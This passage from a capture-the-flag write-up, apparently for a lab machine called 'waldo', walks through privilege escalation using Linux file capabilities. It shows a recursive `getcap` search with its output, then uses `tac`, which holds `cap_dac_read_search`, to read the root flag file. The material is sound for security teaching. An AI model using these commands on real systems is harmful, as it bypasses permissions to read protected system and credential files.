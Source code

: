 Unfortunately, we can't use this particular binary to do anything interesting, other than check out some of the log files that we wouldn't normally have access to (which is kind of cool, I guess). 

If we run `getcap` with no file input, we can see the usage hint. And it contains my favourite flag of all flags... `-r` recursive. We can use this sucker to search for things!!! :D 

Didn't take long to work out the correct way to do a full search of the system. 

```
getcap -r / 2>/dev/null
```

And that gave up two results. 

```
monitor@waldo:/$ getcap -r / 2>/dev/null                                                                                                                          
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

Remember that glorious word from just a few moments ago... Bypass.

`/usr/bin/tac /root/root.txt`

*Sirens in distance*

Jobs a good'un, see ya next time on "chasing ones tail"

> After-thought: I would be very interested to see if there was a way to get a proper root shell on this machine, rather than just have the ability to read files as root. Which, while cool, is not a root shell.

HG/